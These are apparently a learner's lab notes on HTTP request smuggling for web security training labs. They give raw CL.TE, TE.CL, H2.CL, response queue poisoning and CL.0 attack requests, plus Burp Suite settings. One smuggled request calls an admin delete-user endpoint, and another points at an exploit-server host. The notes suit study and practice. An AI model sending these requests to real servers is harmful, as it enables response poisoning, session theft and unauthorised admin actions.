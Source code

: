 ```yaml
---
description: Request Smuggling Practitioner Labs Notes
---
```


# 🏴☠ RequestSmuggling

* Launch Smuggle Probe and H2 Probe. Might miss CL.0

### CL:TE Diff Response Testing

* Don't count the 0 that ends the chunk in the leading hex number(byte count)

```
POST / HTTP/1.1
Host: 0aff001903b2238cc1550dd0002a001b.web-security-academy.net
Sec-Ch-Ua: "Chromium";v="109", "Not_A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 46
Transfer-Encoding: chunked

b
q=smuggling
0

GET /404 HTTP/1.1
Foo: X
```

### TE:CL Differential Response Testing

* Two Trailing NewLines
* Content-Length: 4 for the initial Request header (assuming two digit hex number payload)
  * disable update content-length in repeater
* Hex number to start POST payload = Following bytes-7
  * States the bytelength of upcoming "chunk"
  * Starting from Following HTTP Method to include the last newline

```
POST / HTTP/1.1
Host: 0ada00f40447df13c3aec9dc00bf0037.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

9f
POST /404 HTTP/1.1
Host: 0ada00f40447df13c3aec9dc00bf0037.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

#### Capturing Request in Comment

* Spam requests until you get two normal responses in a row
  * Means request was sent in between
  * Go long in content-length to avoid losing data

### H2 Settings

* Launch H2 Smuggle Probe to scan
  * Won't show up through normal active scan
* Repeater Options disable Update Content Length
* Repeater Options enable Allow HTTP/2 ALPN override
* Inspector -> Request Attributes -> Protocol HTTP/2
* Remove any weird `:HEADER Value` that Burp may have added when testing
* Test full exploit on self, especially if poisoning for XSS
  * Quick refresh and send very necessary

**H2CL**

```
POST / HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Content-Length: 0

GET /resources HTTP/1.1 
Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net 
Content-Length: 5 

x=1
```

**Inspector tab of editing H2 Header for CRLF**

![CRLF Injection in H2C.png](app://local/C:/Users/VictorSemenok/Burping/Attachments/CRLF%20Injection%20in%20H2C.png?1674677441597)

### Response Queue Poisoning

* More cookies
* Repeat the poisoning request until response is interesting (may take spamming)

```
POST / HTTP/2
Host: 0a0500b303418726c3414233008400b2.web-security-academy.net
Cookie: session=aNKjt644Drm0JgFqrdvkYm1yWY3GjLCi
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="109", "Not_A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Transfer-Encoding: chunked
Content-Length: 91

0

GET /404 HTTP/1.1
Host: 0a0500b303418726c3414233008400b2.web-security-academy.net

```

* Also possible in HTTP/2 Headers
  * May break the website formatting? stay frosty\
    ![Request Splitting H2 Headers.png](app://local/C:/Users/VictorSemenok/Burping/Attachments/Request%20Splitting%20H2%20Headers.png?1674683716854)

### CL.0

* Endpoint specific vulnerability
* Send group in sequence, single connection.
* Connection: keep-alive
* Request 1

```
POST /resources/images/blog.svg HTTP/1.1
Host: 0acc000204a8e462c1707b3e00c00090.web-security-academy.net
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0acc000204a8e462c1707b3e00c00090.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: Keep-alive
Content-Length: 50

GET /admin/delete?username=carlos HTTP/1.1
Foo: x
```

* Request 2 is just a valid request
  * may not be necessary during testing?
